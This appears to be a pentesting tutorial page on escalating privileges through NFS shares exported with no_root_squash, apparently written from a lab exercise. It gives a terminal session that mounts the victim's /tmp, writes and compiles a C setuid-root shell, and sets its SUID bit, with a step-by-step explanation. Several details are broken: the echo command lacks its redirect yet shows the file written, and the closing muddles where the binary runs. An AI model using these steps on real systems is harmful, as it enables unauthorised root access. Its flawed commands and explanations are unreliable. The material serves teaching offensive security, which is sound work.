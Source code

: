 # 👩‍🏫 NFS Root Squashing

## Escalation via NFS Root Squashing

### Introduction

Network File System (NFS) is a distributed file system protocol that allows a client to access files over a network as if they were on its local hard drive. NFS Root Squashing is a security feature that restricts the root user's access on the NFS client, preventing them from having superuser privileges on the NFS server.

<figure><img src="https://1846131522-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-MWVjG_njKgBtvmnKaJh%2F-MfpHk6egzwC-0G7wEe4%2F-MfpI1lfqWkXpGpvqWIZ%2Fimage.png?alt=media&#x26;token=2a83441d-9cb1-4746-930e-24c78bd4a461" alt=""><figcaption></figcaption></figure>

### Understanding NFS Root Squashing

When a user on an NFS client attempts to access files on an NFS server, the server checks the user's identity. If the user is the root on the client machine, NFS Root Squashing maps the root user's UID and GID to a non-privileged user's UID and GID on the NFS server. This is done to prevent a compromised or malicious root user on the client from gaining unrestricted access to files on the server.

### Exploiting NFS Root Squashing for Privilege Escalation

If an NFS share is misconfigured with weak permissions or improperly set root squashing, an attacker might find ways to abuse this feature for privilege escalation. Here's a general process an attacker might follow:

1. **Identify NFS Mounts:**
   * Use commands like `showmount -e <NFS_SERVER>` on the attacker's machine to identify NFS shares.
2. **Check Mount Options:**
   * Inspect the mount options on the client. Look for the presence of `no_root_squash` or weak permissions.
3. **Craft Malicious Payloads:**
   * If root squashing is in effect, the attacker can craft payloads that manipulate files within the NFS share.
4. **Exploit Weak Permissions:**
   * If the NFS share has weak permissions, the attacker may be able to create or overwrite files that could lead to privilege escalation.
5. **Abuse Trust Relationships:**
   * If the NFS server trusts the client, the attacker might manipulate files in a way that the server will execute malicious code.

Let's see:

<figure><img src="../../../../../.gitbook/assets/image (327).png" alt=""><figcaption></figcaption></figure>

We see "no root squash", that's interesting..

On our attacker machine, we can:

```
root@ip-10-10-16-213:~# showmount -e <Victim_IP>
Export list for <Victim_IP>:
/tmp *
root@ip-10-10-16-213:~# mkdir /tmp/mountme
root@ip-10-10-16-213:~# mount -o rw,vers=2 10.10.230.125:/tmp /tmp/mountme
root@ip-10-10-16-213:~# echo 'int main() {setgid(0); setuid(0); system("/bin/bash"); return 0; }' /tmp/mountme/x.c
int main() {setgid(0); setuid(0); system("/bin/bash"); return 0; } > /tmp/mountme/x.c
root@ip-10-10-16-213:~# cat /tmp/mountme/x.c
int main() {setgid(0); setuid(0); system("/bin/bash"); return 0; }
root@ip-10-10-16-213:~# gcc /tmp/mountme/x.c -o /tmp/mountme/malicious
root@ip-10-10-16-213:~# chmod +s /tmp/mountme/malicious
```

and on our victim machine we can now see:

<figure><img src="../../../../../.gitbook/assets/image (328).png" alt=""><figcaption></figcaption></figure>

Explanation:

1.  **Show NFS Exports:**

    ```bash
    root@ip-10-10-16-213:~# showmount -e <Victim_IP>
    ```

    The `showmount` command is used to display the NFS (Network File System) exports on the victim machine. It reveals that the `/tmp` directory is exported.
2.  **Create a Mount Point:**

    ```bash
    root@ip-10-10-16-213:~# mkdir /tmp/mountme
    ```

    A local directory (`/tmp/mountme`) is created on the attacking machine to mount the exported directory.
3.  **Mount the NFS Share:**

    ```bash
    root@ip-10-10-16-213:~# mount -o rw,vers=2 10.10.230.125:/tmp /tmp/mountme
    ```

    The `mount` command is used to mount the NFS share from the victim machine (`10.10.230.125:/tmp`) onto the local mount point (`/tmp/mountme`). The options `rw` indicate read and write access, and `vers=2` specifies the NFS version.
4.  **Create a Malicious C Program:**

    ```bash
    root@ip-10-10-16-213:~# echo 'int main() {setgid(0); setuid(0); system("/bin/bash"); return 0; }' /tmp/mountme/x.c
    ```

    A simple C program (`x.c`) is created within the mounted directory that sets the GID and UID to 0 (root) and then executes `/bin/bash`.
5.  **Compile the C Program:**

    ```bash
    root@ip-10-10-16-213:~# gcc /tmp/mountme/x.c -o /tmp/mountme/malicious
    ```

    The `gcc` compiler is used to compile the C program (`x.c`) into a binary executable named `malicious` within the mounted directory.
6.  **Set SUID Bit:**

    ```bash
    root@ip-10-10-16-213:~# chmod +s /tmp/mountme/malicious
    ```

    The SUID bit is set on the compiled binary, allowing it to run with the privileges of the file owner (root). This enables a non-root user to execute the binary with elevated privileges.

After completing these steps, the attacker can execute the compiled `malicious` binary from the local mount point (`/tmp/mountme`), leading to the execution of a root shell on the victim machine:

<figure><img src="../../../../../.gitbook/assets/image (329).png" alt=""><figcaption></figcaption></figure>
